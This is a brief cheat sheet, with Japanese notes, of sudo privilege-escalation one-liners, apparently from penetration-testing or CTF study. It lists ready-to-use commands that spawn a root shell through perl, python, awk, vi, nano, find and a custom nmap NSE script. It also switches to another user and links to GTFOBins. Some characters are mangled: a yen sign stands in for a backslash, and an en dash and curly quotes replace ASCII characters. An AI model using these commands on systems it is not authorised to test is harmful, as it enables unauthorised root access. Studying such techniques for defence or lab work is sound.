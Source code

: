 ## perl
`sudo perl -e 'exec "/bin/sh";'`
## python
`sudo python3 -c 'import os; os.system("/bin/bash")'`
## awk
`sudo awk 'BEGIN {system("/bin/bash")}'`
## vi
`sudo vi –c ‘:!bash’`
## nano
- nanoの場合は、エディタ起動後、^R^X（[Ctrl]+R、[Ctrl]+X）により、コマンドの実行結果を挿入
```bash
sudo nano
^R^X # ^R^X（[Ctrl]+R、[Ctrl]+X）
reset; bash 1>&0 2>&0
```
## find
`sudo find / -exec /bin/bash ¥;`
## nmap
- `cat shell.nse`
  ```
  os.execute("/bin/bash")
  ```
  `sudo nmap --script ./shell.nse localhost`
## 権限変更
`sudo -u scriptmanager bash`
## 検索用
`https://gtfobins.github.io/#+sudo`

  
